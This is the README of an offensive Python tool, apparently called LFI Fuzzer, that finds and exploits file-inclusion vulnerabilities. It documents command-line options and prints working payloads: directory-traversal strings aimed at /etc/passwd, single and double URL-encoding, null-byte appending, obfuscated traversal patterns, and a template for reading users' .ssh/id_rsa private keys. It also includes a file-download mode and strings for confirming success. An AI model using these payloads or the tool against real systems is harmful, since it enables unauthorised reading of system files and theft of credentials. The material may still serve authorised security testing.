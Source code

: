 ## LFI Fuzzer
A script to find and exploit LFI/RFI vulnerabilities with handy options.


### How to use

Get a copy of lfi_fuzzer.py, list arguments with
```
python lfi_fuzzer.py -h
```

Simple example

```
python lfi_fuzzer.py -u http://localhost/?page= -w lfi_list.txt
```

### Arguments

###### nb_parent
Number of directories we need to traverse up

```
-p / --nb_parent 5
../../../../../
```


###### urlencode

```
without urlencode
../../page_xx'xx

-e / --urlencode 1
..%2F..%2Fpage_xx%27xx

-ec / --urlencode 2
..%252F..%252Fpage_xx%2527xx
```

###### path_prefix
Real or fake path to add before anything in the payload

```
-r / --path_prefix xxx/
xxx/../../etc/passwd

-r / --path_prefix /var/www/html/
/var/www/html/../../etc/passwd
```

###### append_null
Add a null charactacter at the end of the payload

```
-n / --append_null
xxx/../../etc/passwd\0
```

###### traversal_method

Use various traversal method

```
-m / --traversal_method 0
../

-m / --traversal_method 1
..//

-m / --traversal_method 2
....//

-m / --traversal_method 999
This is the random method. Results may varies depending on HTTP servers and payloads. Some payload may just work or not, you should try at least 5 to make sure.
./..../.././///./././/..//..//././//../
```

###### stress

Try everything against a single hardcoded payload (/etc/passwd) : between 6-10 directory parents, every encoding, every traversal method, and a few prefixes, including your own.

```
-s / --stress
-s / --stress --path_prefix xxx/
```

###### output

Just output payloads instead of try them

```
-o / --output
```

###### download

Enable downloading files

```
-d / --download
```

###### verbose

Enable (not so much) verbose output. Just add actual payload in the output
```
-v / --verbose
```

###### var

Replace `[VAR]` placeholder in a payload by your own value

```
-x / --var Billy

../../home/[VAR]/.ssh/id_rsa

../../home/Billy/.ssh/id_rsa

```

###### min_length

Minimum response length

```
-l / --min-length 159
```

###### success_string

Validating string to look for

```
-ss / --success_string "root:x:0"
```

###### error_string

Failure string to look for

```
-es / --error_string "Failed to open stream: No such file or directory"
```



